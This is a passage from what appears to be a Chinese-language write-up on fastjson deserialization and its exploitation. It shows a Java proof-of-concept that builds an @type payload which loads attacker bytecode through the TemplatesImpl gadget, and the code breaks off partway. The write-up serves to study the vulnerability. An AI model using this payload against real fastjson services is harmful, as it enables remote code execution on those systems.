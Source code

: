 ![image.png](./fastJson反序列化原理及利用.assets/2023_05_19_16_10_36_P8znBCSE.png)



我最初是在网上找了一个复现poc

```java
public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        String className = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        // 获取Exec的字节码
        String byteCode = FileTools.getEvil(Class.forName("com.fastjson.tools.Exec"));
        String json = "{\"@type\":\"" + className + "\"," +
                "\"_bytecodes\":[\"" + byteCode + "\"]," +
                "'_name':''," +
                "'_tfactory':{}," +
                "\"_outputProperties\":{}," +
                "\"_name\":\"\"," +
                "\"_version\":\"\"," +
                "\"allowedProtocols\":\"\"}";
        System.out.println(json);
        // 设置反序列化时对类的私有属性进行赋值
```